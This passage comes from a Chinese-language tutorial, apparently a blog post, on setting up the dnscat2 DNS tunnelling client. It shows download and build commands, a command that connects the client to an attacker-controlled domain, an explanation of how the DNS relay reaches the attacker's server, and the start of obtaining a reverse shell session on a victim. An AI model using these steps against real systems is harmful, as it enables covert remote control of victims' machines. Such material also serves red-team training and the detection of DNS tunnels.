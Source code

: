 ![](https://mmbiz.qpic.cn/mmbiz_png/Tvn7G7hSv377iccjW0URAm01KypFic6Z3tHGTr8h0OAjPibekGqibeCw0yHqvw7C9yzl68Ib2uJSJ9q0xd5w1V9BoQ/640?wx_fmt=png)

  

三：客户端下载安装 dnscat2

客户端 Windows 下载的话是：https://downloads.skullsecurity.org/dnscat2/

下载地址：https://downloads.skullsecurity.org/dnscat2/dnscat2-v0.07-client-win32.zip（密码：password ）

Linux 直接下载并编译：

```
git clone https://github.com/iagox86/dnscat2.git

```

```
cd dnscat2 /client/

```

```
make

```

四、测试是否能通信

服务端建立后，执行如下命令，测试客户端是否能与服务端通信：

```
./dnscat --dns domain=dns.saulgoodman.club

```

![](https://mmbiz.qpic.cn/mmbiz_png/Tvn7G7hSv377iccjW0URAm01KypFic6Z3tHibkJEWHvDAiaYIuibnVPYLNOiajRG65AR9ufBHMrout9BicY3K8ZKZ7jHw/640?wx_fmt=png)

  

这个时候服务端收到会话：

![](https://mmbiz.qpic.cn/mmbiz_png/Tvn7G7hSv377iccjW0URAm01KypFic6Z3tTEQEUcTHKs69GhwG6REUxjMzbdpUV1VQpv3sSR9hjcPe4ZXG9SyS5A/640?wx_fmt=png)

  

复盘过程：目标受害者上的 dnscat2 指定了 dns 为攻击者的 VPS，也就是（dns.saulgoodman.club），解析 dns.saulgoodman.club 会首先在本地 dns 缓存中查找，没有对应记录的时候，目标 dns 会从互联网上的跟 dns 服务器查询，dns 根一看域名是 saulgoodman.club ，就会给到 saulgoodman.club 域名服务器，saulgoodman.club 域名服务器就会找 A 记录和 NS 记录。

具体过程中 dnscat2 客户端经过了互联网的 dns 服务器，然后再连接到我们的 dns 服务器，所以这就是中继模式。

五、 反弹 Shell

客户端和服务端建立连接之后，服务端将处于交互模式，输入 “windows” 或者 “session” 命令，可以查看当前控制的进程（每个连接都是独立的）：

```
session

```

![](https://mmbiz.qpic.cn/mmbiz_png/Tvn7G7hSv377iccjW0URAm01KypFic6Z3tpqia3TdRBdONSf9wOOpH5kll0ibjEVNUVJomjlZGFvVo7ZtZ0TKNOR7A/640?wx_fmt=png)
